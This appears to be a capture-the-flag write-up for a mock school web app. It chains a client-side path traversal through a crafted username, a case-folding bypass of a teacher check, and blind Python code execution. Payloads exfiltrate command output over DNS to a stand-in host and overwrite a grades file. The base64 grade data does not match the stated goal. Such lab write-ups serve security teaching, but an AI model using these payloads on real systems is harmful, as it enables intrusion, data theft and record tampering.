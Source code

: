 # SOLUTION:

By viewing the source code of / you find a path called /routes where you can see all paths. If you test each of them you find that /waitlist as an access control issue.

On that page you can see how the links to accept or deny users are made. Since you know that the teacher denies user every minute you have to find a way to force her into accepting one of you user. Your username is direclty appended to the path without verification because of this you can exploit a Client Side Path Traversal by creating a user named foo/../../accept/attacker. So when the teacher clicks the link : http://localhost:8081/deny/foo/../../accept/attacker it results in http://localhost:8081/accept/attacker which gives the attacker access to the class.

The next bug wasn't really realistic but it was to test your attention to details. Once you gain access to the class you see the name of all users in the class which contains the user Teacher however when you try to access a page that only the teacher as access you get this error message : "
As user : {username} you cant approve or deny users only user : "teacher" does."

You can notice that your username if it had capital letters is lower cased same thing for the user Teacher. What you have to understand here is that the username validation is flawed since it lowers the characters before checking if they match with teacher. This means that you can re-exploit the CSPT to validate the user TEACHER for example.

Now that you are logged in and have gain access to the class as user TEACHER you also gain access to the grade page. Where there is a python calculator...

This python calculator contains a python code execution vulnerability sadly you will have to use OOB detection to exploit and confirm this vulnerability since its blind.

So here is how I would've exploited this :

First confirm the vuln with the payload :

```
__import__('os').system('host $(whoami).yoursite.com')
```

Then list files :

```
__import__('os').system('for i in $(ls) ; do host \"$i.yoursite.com\"; done')
```

Then list data directory :

```
__import__('os').system('for i in $(ls data) ; do host \"$i.yoursite.com\"; done')
```


Then edit gardes.json so Vincent's grade is over 90% :

```
__import__('os').system('echo "ewogICAgIlZpbmNlbnQiOiAyNy44NywKICAgICJDYXJsb3MiOiA4Ny42NywKICAgICJXaWVuZXIiOiA2MS44NiwKICAgICJuZXJkIjogMTAwLjAxCn0=" | base64 -d > data/grades.json')
```
